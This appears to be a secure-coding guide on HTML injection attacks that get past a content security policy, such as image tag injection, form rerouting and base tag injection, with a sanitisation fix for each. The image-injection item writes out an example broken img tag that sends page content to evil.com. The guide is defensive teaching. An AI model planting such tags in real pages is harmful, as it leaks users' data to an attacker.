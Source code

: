 ##Description:

Whenever an attacker can inject HTML in your application there is a variety of different
attacks he could perform such as:

1. Content Spoofing
2. Image Tag Injection 	
3. Form Rerouting
4. Base Jumping
5. Element Override
6. Hanging Textarea

Even when your application intercepts XSS injections by means of a content security policy
header it still remains vulnerable to the attacks summarized above.

## Solution:

1.Content spoofing Otherwise known as "Content Injection" or "Virtual Defacement" occurs whenever an attacker can inject code into your application. It is very important to sanitize and or encode user data before you display it on screen as HTML.

2.Image tag injection occurs whenever an attacker injects a broken image tag with a non-terminated parameter like: "img src='http://evil.com?steal.php?value= Every content after value= parameter will now be stolen and send to evil.com by the attacker till the injection finds the next occurrence of a matching single quote.
Again you should sanitize and encode the user input to prevent an image tag from being injected in your application. For whenever a user is permitted to submit an image on your application enforce and verify the application accepts valid non-broken tags only.

3.The "form" tag can't be nested. The top-level occurrence of this element always takes precedence over subsequent appearances. Again you must avoid this type by properly encoding and sanitizing your user-inputs.

4.Whenever an attacker injects a "base" tag into your application it can steal data because the tag specifies the base URL/target to where to process the data to.
The solution to base jumping would be to use absolute paths in your application such as  action='/update_profile.php'
instead of: action='update_profile.php'

5/6 can both also easily be prevented simply be encoding or sanitizing your user-input submitted towards your application.
Always validate your user input on a high level(server-side constraint). Whenever your application expects an integer you should validate and check whether the user submitted input really is what you expected it to be and otherwise, you terminate and log the request.

